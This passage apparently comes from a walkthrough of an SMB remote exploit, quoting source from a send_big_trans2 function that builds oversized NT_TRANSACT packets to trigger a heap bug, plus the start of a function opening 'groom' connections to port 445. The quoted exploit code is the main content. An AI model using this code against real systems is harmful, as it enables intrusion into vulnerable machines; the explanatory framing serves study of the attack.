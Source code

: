     ```
- On lines 395-410 in the send_big_trans2 function, we can see these packets being created.
     ```
    pkt = smb.NewSMBPacket()
	pkt['Tid'] = tid
	command = pack('<H', setup)

	# Use SMB_COM_NT_TRANSACT because we need to send data >65535 bytes to trigger the bug.
	transCommand = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
	transCommand['Parameters'] = smb.SMBNTTransaction_Parameters()
	transCommand['Parameters']['MaxSetupCount'] = 1
	transCommand['Parameters']['MaxParameterCount'] = len(param)
	transCommand['Parameters']['MaxDataCount'] = 0
	transCommand['Data'] = smb.SMBTransaction2_Data()

	transCommand['Parameters']['Setup'] = command
	transCommand['Parameters']['TotalParameterCount'] = len(param)
	transCommand['Parameters']['TotalDataCount'] = len(data)
    fixedOffset = 32+3+38 + len(command)
	if len(param) > 0:
		padLen = (4 - fixedOffset % 4 ) % 4
		padBytes = b'\xFF' * padLen
		transCommand['Data']['Pad1'] = padBytes
	else:
		transCommand['Data']['Pad1'] = ''
		padLen = 0

	transCommand['Parameters']['ParameterCount'] = len(param)
	transCommand['Parameters']['ParameterOffset'] = fixedOffset + padLen

	if len(data) > 0:
		pad2Len = (4 - (fixedOffset + padLen + len(param)) % 4) % 4
		transCommand['Data']['Pad2'] = b'\xFF' * pad2Len
	else:
		transCommand['Data']['Pad2'] = ''
		pad2Len = 0

    transCommand['Parameters']['DataCount'] = firstDataFragmentSize
    transCommand['Parameters']['DataOffset'] = transCommand['Parameters']['ParameterOffset'] + len(param) + pad2Len
    
    transCommand['Data']['Trans_Parameters'] = param
    transCommand['Data']['Trans_Data'] = data[:firstDataFragmentSize]
    pkt.addCommand(transCommand)
    ```
    
- These packets are sent to the target. 
    ```
    conn.sendSMB(pkt)
    ```
- These packets allocate large chunks of memory on the heap.
- We send many connections (also called “groom connections”) to the target.
    ```
    def createConnectionWithBigSMBFirst80(target, for_nx=False):
    	sk = socket.create_connection((target, 445))
    	pkt = b'\x00' + b'\x00' + pack('>H', 0x8100)
    	# There is no need to be SMB2 because we want the target free the corrupted buffer.
    	# Also this is invalid SMB2 message.